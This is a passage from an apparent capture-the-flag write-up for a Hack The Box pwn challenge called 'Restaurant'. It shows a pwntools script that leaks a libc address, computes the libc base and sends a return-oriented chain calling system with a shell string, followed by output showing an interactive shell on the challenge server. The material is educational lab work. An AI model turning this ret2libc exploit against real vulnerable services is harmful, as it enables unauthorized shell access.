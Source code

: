 ```python

# Send first payload
target.sendlineafter("> ", payload)
# Ignore 2 lines
target.recvuntil(b"\n")
target.recvuntil(b"\n")

# Receive leaked address
leak = u64(target.recvuntil(b"\n").strip().ljust(8, b"\x00"))

# Calculate server libc base address
server_libc_base_addr = leak - libc.symbols['puts']

# Update libc base address
libc.address = server_libc_base_addr

# Craft second ROP chain
payload = padding
payload += p64(ret)
payload += p64(pop_rdi)
payload += p64(server_libc_base_addr + shell_offset)
payload += p64(server_libc_base_addr + system_offset)

# Send payload
target.sendafter(b"> ", payload)

target.interactive()
```

And when we run it.
```
└─$ python my_exploit.py
[*] '/home/jake/Desktop/HTB/Challenges/Restaurant/pwn_restaurant/restaurant'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/jake/Desktop/HTB/Challenges/Restaurant/pwn_restaurant/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 206.189.113.249 on port 30489: Done
/usr/local/lib/python3.11/dist-packages/pwnlib/tubes/tube.py:823: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
[*] Switching to interactive mode

Enjoy your AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA>\x06$ ls
flag.txt
libc.so.6
restaurant
run_challenge.sh
$  
```

Et Voila!
